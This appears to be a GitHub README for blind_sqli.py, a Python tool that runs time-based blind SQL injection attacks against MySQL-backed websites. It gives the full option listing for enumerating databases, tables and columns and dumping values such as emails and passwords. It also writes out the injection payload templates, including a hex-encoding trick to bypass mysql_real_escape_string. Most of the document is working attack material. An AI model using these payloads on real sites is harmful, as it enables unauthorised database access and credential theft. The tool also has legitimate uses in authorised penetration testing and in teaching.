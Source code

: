 ## blind_sqli.py

[blind_sqli.py](blind_sqli.py) is a little tool written in python3 that can perform a Time-Based blind SQLi attack on a vulnerable website which backend is based on a MySQL server

```
./blind_sqli.py -u <url> [options]
	OPTIONS
	-h | --help											Print this message

	-u <url> | --url=<url>								Sets the url of the vulnerable page.
														Terminating with get parameters if needed. See --data option for structure rules

	-s <time:float> | --sleeptime=<time:float>			Sets wait time for SLEEP() instruction

	-d | --data											Strings that represents the POST request data in url encoded format
														in wich the parameters are in the form variablename=variabletype
														where variablename is the name uf the request paramenter 
														and variabletype is the tipe of the request parameter 
														the type could be either 'string' or 'number'
														E.g. email=string&id=number.
														I --data paremeter is set, the request will be performed in POST method

	--databases											Extract databases list

	-b <dbname> | --database=<dbname>					Sets the database name for the next instruction (--tables or --table)

	--tables											Extract the table list from the provided database

	-t <tablename> | --table=<tablename>				Sets the table name for the next instruction (--columns or --column-list)

	--columns											Extract column names list from the provided table

	-c <list> | --column-list=<list>					Sets a list of comma separated column names whose values ​​are to be extracted 
														E.g.: email,username,password

	-m | --mute											The program doesn't print the data extracted at the end of executon

	-v | --verbose										Verbose mode: the program prints also the payloads used for injection
```

1. retrieving databases:
	- count: "SELECT * FROM (SELECT COUNT(*) AS n_databases FROM information_schema.schemata)x WHERE x.n_databases = {} AND SLEEP(0.1)"
	- extraction: "SELECT * FROM(SELECT schema_name FROM information_schema.schemata LIMIT {},1)x WHERE MID(x.schema_name,{},1) = {} AND SLEEP(0.1)"
2. retrieving table names:
	- count: "SELECT * FROM (SELECT COUNT(*) AS n_tables FROM information_schema.tables WHERE table_schema = CONCAT(" + database_hex + "))x WHERE x.n_tables = {} AND SLEEP(0.1)"
	- extraction: "SELECT * FROM(SELECT table_name FROM information_schema.tables WHERE table_schema = CONCAT(" + database_hex + ") LIMIT {},1)x WHERE MID(x.table_name,{},1) = {} AND SLEEP(0.1)"
3. retrieving column count and data type in tables:
	- count: "SELECT * FROM (SELECT COUNT(*) AS n_columns FROM information_schema.columns WHERE table_schema = CONCAT(" + database_hex + ") AND table_name = CONCAT(" + table_hex + "))x WHERE x.n_columns = {} AND SLEEP(0.1)"
	- extraction: "SELECT * FROM(SELECT CONCAT(column_name,"+hex(ord(':'))+",column_type) AS column_info FROM information_schema.columns WHERE table_schema = CONCAT(" + database_hex + ") AND table_name = CONCAT(" + table_hex + ") LIMIT {},1)x WHERE MID(x.column_info,{},1) = {} AND SLEEP(0.1)"
4. retrieving column data:
	- count: "SELECT * FROM (SELECT COUNT(*) AS n_rows FROM  " + db + '.' + table + ")x WHERE n_rows = {} AND SLEEP(0.1)"
	- extracton: "SELECT * FROM(SELECT CONCAT(" + columns_concat + ") AS data FROM " + db + '.' + table + " LIMIT {},1)x WHERE MID(x.data,{},1) = {} AND SLEEP(0.1)"

where:
- database_hex: hex string of comma separated characters, to use as argument for concat to bypass mysql_real_escape_string
- table_hex: same thing, but with table name
